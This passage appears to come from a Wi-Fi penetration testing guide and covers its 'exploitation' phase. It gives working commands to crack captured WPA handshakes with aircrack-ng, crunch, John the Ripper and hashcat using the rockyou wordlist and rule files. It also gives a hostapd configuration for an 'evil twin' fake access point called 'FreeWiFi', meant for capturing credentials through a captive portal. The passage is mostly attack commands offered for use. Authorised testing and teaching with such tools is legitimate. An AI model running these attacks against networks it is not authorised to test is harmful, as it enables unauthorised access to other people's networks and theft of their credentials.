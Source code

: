 ### Phase 3: Exploitation Techniques

#### 3.1 Dictionary Attacks

```bash
# Basic dictionary attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap

# Create custom wordlist
crunch 8 12 -t password%%% | head -1000 > custom.txt

# Use John the Ripper for wordlist generation
john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -w - handshake-01.cap
```

#### 3.2 Hashcat GPU Acceleration

```bash
# Convert capture to hashcat format
hcxpcapngtool -o hash.hc22000 handshake-01.cap

# GPU-accelerated cracking
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt

# Advanced hashcat rules
hashcat -m 22000 hash.hc22000 wordlist.txt -r /usr/share/hashcat/rules/best64.rule
```

#### 3.3 Evil Twin Attacks (Basic)

```bash
# Create fake access point
sudo hostapd hostapd.conf &

# Example hostapd.conf
interface=wlan1
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0

# Capture credentials with captive portal
# (Advanced topic - see dedicated guide)
```

## Essential Tools Deep Dive

### Aircrack-ng Suite
